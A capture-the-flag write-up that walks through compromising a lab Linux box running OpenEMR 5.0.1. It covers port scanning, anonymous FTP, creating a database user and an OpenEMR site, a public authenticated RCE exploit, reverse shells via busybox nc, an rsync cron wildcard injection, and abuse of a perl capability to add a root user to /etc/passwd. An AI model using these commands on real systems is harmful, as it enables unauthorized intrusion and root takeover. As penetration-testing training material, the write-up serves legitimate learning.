








# Plotted-EMR

### Typology:
_Linux_

---

We started as usual by enumerating the target ports:
```bash
nmap -sC -sV -p- -min-rate=1000 10.10.113.90

21/tcp   open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.8.98.143
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 aa:63:ae:b3:17:f0:62:09:8d:96:c8:e0:7a:34:ef:5d (RSA)
|   256 d7:4a:34:0a:bc:e4:ce:ca:6f:d2:a8:26:f7:02:2e:4b (ECDSA)
|_  256 10:16:63:fb:c4:b2:8b:41:74:7b:df:bd:2d:fe:32:57 (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
5900/tcp open  mysql   MySQL 5.5.5-10.3.31-MariaDB-0+deb10u1
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.3.31-MariaDB-0+deb10u1
|   Thread ID: 41
|   Capabilities flags: 63486
|   Some Capabilities: SupportsLoadDataLocal, DontAllowDatabaseTableColumn, Speaks41ProtocolOld, LongColumnFlag, SupportsTransactions, Support41Auth, ODBCClient, IgnoreSpaceBeforeParenthesis, ConnectWithDatabase, InteractiveClient, FoundRows, Speaks41ProtocolNew, SupportsCompression, IgnoreSigpipes, SupportsMultipleResults, SupportsMultipleStatments, SupportsAuthPlugins
|   Status: Autocommit
|   Salt: _87JN+),A@`BihP8es3D
|_  Auth Plugin Name: mysql_native_password
8890/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
```

Summarize:

- _21 FTP it could allows anonymous login_

- _22 SSH_

- _80 Apache webserver_

- _5900 Mysql db, interesting_

- _8890 another HTTP port_

First of all I want to try with FTP port and the anonymous login:



We see there is a file called __"you_are_determined.txt"__ with the following hint:
```
Sorry, but you wasted your time!

Here is something for you :D
https://www.youtube.com/watch?v=dQw4w9WgXcQ #rickroll 100%

Wait..I'll give you a hint: see if you can access the `admin` account
```
we have an username __"admin"__, I want to try it on the DB with the following command:
```bash
mysql -h 10.10.113.90 -u admin -P 5900

Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 39
Server version: 10.3.31-MariaDB-0+deb10u1 Debian 10

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> SHOW databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
+--------------------+

SHOW GRANTS;

+--------------------------------------------------------------+
| Grants for admin@%                                           |
+--------------------------------------------------------------+
| GRANT ALL PRIVILEGES ON *.* TO `admin`@`%` WITH GRANT OPTION |
+--------------------------------------------------------------+
```
We're in and we have all privileges but for the moment we can't do anything, we go on with the 2 webservers:

### Port 80:



It's a defualt apache webpage let's see if feroxbuster can find something:
```bash
feroxbuster -u http://10.10.113.90/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt  -x php,txt,bak,py,js,html,pdf,git,zip

200      GET        1l        1w       33c http://10.10.113.90/admin
200      GET        1l        1w       61c http://10.10.113.90/shadow
200      GET        1l        1w       61c http://10.10.113.90/passwd
```

There are 3 folders, they contain:

1. _/admin_ = dGhpcyBtaWdodCBiZSBhIHVzZXJuYW1l (base64) = __"this might be a username"__

2. _/shadow_ = aHR0cHM6Ly93d3cueW91dHViZS5jb20vd2F0Y2g/dj1kUXc0dzlXZ1hjUQ== (base64) = __[Rickroll](https://www.youtube.com/watch?v=dQw4w9WgXcQ)__

3. _/passwd same as /shadow_

I can't find more things about theese one

### Port 8890:


Another default Apache webpage also this time we use feroxbuster:
```bash
feroxbuster -u http://10.10.113.90:8890/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt  -x php,txt,bak,py,js,html,pdf,git,zip

200      GET       15l       74w     6147c http://10.10.113.90:8890/icons/ubuntu-logo.png
200      GET      375l      964w    10918c http://10.10.113.90:8890/index.html
200      GET      375l      964w    10918c http://10.10.113.90:8890/
301      GET        9l       28w      320c http://10.10.113.90:8890/portal => http://10.10.113.90:8890/portal/
302      GET        0l        0w        0c http://10.10.113.90:8890/portal/index.php => interface/login/login.php?site=default
301      GET        9l       28w      327c http://10.10.113.90:8890/portal/images => http://10.10.113.90:8890/portal/images/
200      GET        3l       16w      736c http://10.10.113.90:8890/portal/images/b_edit.png
200      GET       10l       26w     1140c http://10.10.113.90:8890/portal/images/module.png
200      GET        2l        3w      178c http://10.10.113.90:8890/portal/images/upbtn.gif
200      GET        9l       37w     1451c http://10.10.113.90:8890/portal/images/loading.gif
200      GET        1l        2w      188c http://10.10.113.90:8890/portal/images/leftbtn.gif
[SNIPP]
```

The output is impressive but only two things are interesting __"/portal"__ and __"/portal/admin.php"__

The first one is:



OpenEMR (OpenEMR is a free and open-source software providing electronic medical records, medical billing, patient scheduling...) login page, we don't have any credentials, try to see the second one:

 

The second one is more juicy, first information is the version __"5.0.1(3)"__ and a button called __"Add New Site"__:



It seems we can create a new web instance in order to continue we type in a random ID, in the next page we can retrieve more information from this phrase:
```
Welcome to OpenEMR. This utility will step you through the installation and configuration of OpenEMR for your practice.

Before proceeding, be sure that you have a properly installed and configured MySQL server available, and a PHP configured webserver.
Detailed installation instructions can be found in the 'INSTALL' manual file.
If you are upgrading from a previous version, do NOT use this script. Please read the 'Upgrading' section found in the 'INSTALL' manual file.
```
We can create an our OpenEMR with a DB and a PHP webserver, The next steps are: __"Continue-> Have setup create the database-> Continue"__ then:



Remember we have __"5900 Mysql DB open"__ with admin priveligies, we can mount the db there

First step create a new user:
```sql
CREATE USER '<name>' IDENTIFIED BY '<passwd>'; #command to create user
```
```sql
GRANT ALL PRIVILEGES ON *.* TO '<name>' WITH GRANT OPTION; #command to grant privileges
```
Second step is to insert the right data:
```
Server Host: 10.10.113.90
Server Port: 5900

Database Name: openemr
Login Name: user created before
Password: the password we setup before

Name for the root account : admin
Root pass: the password we setup before

Initial user: admin
Initial user password: what you want
```
Then wait some time and follow this steps: __"Continue-> Continue-> Continue-> Continue-> http://10.10.113.90:8890/portal/interface/login/login.php?site=ID_name_created_before"__, type in the Initial user and Initial user password setted before and we're in as Administrator



searching around the website did not bring any results but we know the version, it's time to googling.

The first result it is this [one](https://www.exploit-db.com/exploits/45161) is a remote code execution (Authenticated) follow me in this steps:

First copy the payload and change the code at line __"47"__:
```python
r = s.post(args.host + "/interface/main/main_screen.php?auth=login&site=<site ID created before>", data=login)
```
Second run the listener and then execute the payload:
```bash
python3 -m pwncat -lp 6666 #pwncat listener

python2 exploit -u <user> -p <password> -c 'busybox nc 10.8.98.143 6666 -e /bin/bash' http://10.10.113.90:8890/portal
```
after some manual enumeration with the following command:
```bash
cat /etc/crontab

plot_admin cd /var/www/html/portal/config && rsync -t * plot_admin@127.0.0.1:~/backup
```
a cronjob that it is creating a backup of files from the directory /var/www/html/portal/config into the backup directory of the user plot_admin on the same machine, Internet is our friend so I search __"rsync cronjob privesc"__ and this [site](https://materials.rangeforce.com/tutorial/2019/11/08/Linux-PrivEsc-Wildcard/) helped me:



Our mission is a wildcard injection so first revshell file:
```bash
cd /var/www/html/portal/config

nano shell.sh

#!/bin/bash
busybox nc 10.8.98.143 7777 -e /bin/bash
```
pwncat listener:
```bash
python3 -m pwncat -lp 7777
```
then:
```bash
touch -- "-e sh shell.sh"
```
wait one minute and we will have a revshell as __"plot_admin"__, we can submit the first flag it's time to use linepas.sh.

Linpeas prompt an interesting line:
```bash
/usr/bin/perl = cap_fowner+ep
```

A capability fowner (we can change the permissions) we can exploit it like this:
```bash
perl -e 'chmod 0777, "/etc/passwd"'

openssl passwd -1 -salt usertest test #we generate a new passowrd for the new root user in /etc/passwd

echo 'usertest:$1$usertest$ILAmk52t3T8sU/7Ki7dKa1:0:0/root:/bin/bash' >> /etc/passwd

su usertest
```
Inser the password and we're root, the last flag is our.
